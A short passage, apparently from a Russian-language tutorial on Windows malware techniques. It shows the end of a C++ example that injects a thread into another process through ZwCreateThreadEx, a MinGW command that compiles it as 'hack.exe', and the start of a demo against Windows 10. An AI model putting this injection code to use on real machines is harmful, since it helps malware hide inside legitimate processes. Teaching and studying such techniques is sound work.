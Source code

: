 ```cpp
  sh = NULL;

  // create new thread
  myZwCreateThreadEx(&th, 0x1FFFFF, NULL, pi.hProcess,
  rb, NULL, CREATE_SUSPENDED, 0, 0, 0, 0);
  printf("thread: %p.\n", th);
  ResumeThread(pi.hThread);
  myZwClose(pi.hThread);
  myZwClose(th);

  return 0;
}
```

### демо

Компилируем наш пример:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive
```

![injection 5](./images/35/2022-01-16_23-57.png){width="80%"}    

Затем запускаем и смотрим в действии! В нашем случае целевая машина - Windows 10 x64:
